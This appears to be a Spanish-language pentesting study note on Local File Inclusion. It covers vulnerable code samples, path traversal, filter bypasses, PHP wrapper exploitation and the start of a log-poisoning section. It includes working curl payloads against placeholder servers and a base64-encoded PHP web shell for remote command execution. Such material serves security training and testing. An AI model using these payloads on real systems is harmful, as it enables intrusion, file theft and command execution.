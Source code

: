 
Para detectar este tipo de vulnerabilidades debemos buscar la forma de cargar archivos del servidor cuando no debería poderse. Podemos detectarlo con un análisis estático, así sería la vulnerabilidad en algunos lenguajes de programación.

```php
if (isset($_GET['language'])) {
    include($_GET['language']);
}
```
Incluye en la ruta cualquier archivo que le introduzcamos en languaje sin revisarlo.

```javascript
if(req.query.language) {
    fs.readFile(path.join(__dirname, req.query.language), function (err, data) {
        res.write(data);
    });
}
```
Utiliza la función readFile, independientemente del archivo que sea.

```js
app.get("/about/:language", function(req, res) {
    res.render(`/${req.params.language}/about.html`);
});
```
Renderiza  la ruta especificada siendo cualquier archivo.

```jsp
<c:if test="${not empty param.language}">
    <jsp:include file="<%= request.getParameter('language') %>" />
</c:if>
```
En java también pueden usar la función include que es igual que en PHP.

```jsp
<c:import url= "<%= request.getParameter('language') %>"/>
```
La función import funciona igual, por lo que se puede aprovechar para explotar la vulnerabilidad.

Podemos ver si podemos explotar la vulnerabilidad según las funciones que usan en la siguiente tabla:

| **Función** | **Leer contenido** | **Ejecutar** | **URL remota** |
| ---- | :--: | :--: | :--: |
| **PHP** |  |  |  |
| `include()`/`include_once()` | ✅ | ✅ | ✅ |
| `require()`/`require_once()` | ✅ | ✅ | ❌ |
| `file_get_contents()` | ✅ | ❌ | ✅ |
| `fopen()`/`file()` | ✅ | ❌ | ❌ |
| **NodoJS** |  |  |  |
| `fs.readFile()` | ✅ | ❌ | ❌ |
| `fs.sendFile()` | ✅ | ❌ | ❌ |
| `res.render()` | ✅ | ✅ | ❌ |
| **Java** |  |  |  |
| `include` | ✅ | ❌ | ❌ |
| `import` | ✅ | ✅ | ✅ |
| **.NETO** |  |  |  |
| `@Html.Partial()` | ✅ | ❌ | ❌ |
| `@Html.RemotePartial()` | ✅ | ❌ | ✅ |
| `Response.WriteFile()` | ✅ | ❌ | ❌ |
| `include` |  |  |  |

Cuando las funciones especifican que los archivos son del directorio actual, como por ejemplo:
```php
include("./languages/" . $_GET['language']);
```
Se convierte en una vulnerabilidad de Path Transversal dónde hay que retroceder directorios y movernos a ciegas por el sistema de ficheros hasta llegar a dónde queremos. En lugar de añadir /etc/passwd en el campo vulnerable tendríamos que añadir suficientes ../ como directorios haya y luego poner la ruta a la que queremos llegar: ../../../../../../etc/passwd

Cuando se añade un prefijo al nombre el payload tendría que empezar por /.

### Basic Bypasses

#### ../ filter

Una técnica para evitar esta vulnerabilidad sería reemplazar los ../ por caracteres en blanco para que no se pudiera retroceder en los directorios. Para saltar esto podemos incluir en lugar de ../ ....// para que cuando quiten el ../ se quede de nuevo ../.

También se puede codificar en hexadecimal ya que la web también lo entiende. En el formato %num%num%num. Es posible usar `..%c0%af` y `..%ef%bc%8f` como encoding.

#### Route filter

Otras páginas pueden tener un filtro para que solo se puedan extraer archivos de la ruta especificada. Por ello tenemos que añadir esa ruta a nuestros payload:

```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

./languaje/../../../../../etc/passwd

#### Extensión adjunta

En la versiones de PHP anteriores a la `5.3/5.4` se utilizaba el truncamiento de ruta, si la ruta superaba los 4096 caracteres se truncaba la ruta así que se eliminaría la extensión .php. Además, el . en medio de la ruta se elimina.
```url
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

Las versiones anteriores a la 5.5 de PHP son vulnerable al byte nulo, si al final de la ruta se añade %00 todo lo que vaya después se elimina.

### PHP wrappers

Una forma de exfiltrar código cuando se añade la extensión al final de los archivos que se buscan es con wrappers.

#### Data

Para poder utilizar esto debemos ver si hay una opción activada mirando en el archivo de configuración:

```shell-session
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

Tiene que existir esta línea de esta forma:

```shell-session
allow_url_include = On
```

Primero convertimos el payload a base64
```shell-session
echo '<?php system($_GET["cmd"]); ?>' | base64
```

De esta forma tenemos una shell dinámica con la que podemos ejecutar comandos con la ruta vulnerable.

```shell-session
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id'
```

#### Input

El input necesita que el parámetro vulnerable permita peticiones POST para poderse llevar a cabo.

```shell-session
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

#### Expect

Esto solo funcionará si está instalado en el servidor back-end, podemos comprobarlo mirando en el archivo de configuración si tiene la siguiente linea:

```shell-session
extension=expect
```

```shell-session
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

Expect directamente evalúa código, por lo que no hará falta crear ninguna shell.

### Log poisoning

Consiste en contaminar el archivo de log con código que se pueda ejecutar. Las funciones que pueden ser vulnerables son las siguientes:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`require()`/`require_once()`|✅|✅|❌|
|**NodeJS**||||
|`res.render()`|✅|✅|❌|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`include`|✅|✅|✅|

#### PHP session poisoning

Existe una cookie muy utilizada llamada PHPSESSID, esta se almacena en el servidor víctima en el PATH `/var/lib/php/sessions/` en linux y `C:\Windows\Temp\` en Windows.

El archivo es almacenado con el nombre de la cookie y el prefijo sess.

#### Server Log Poisoning

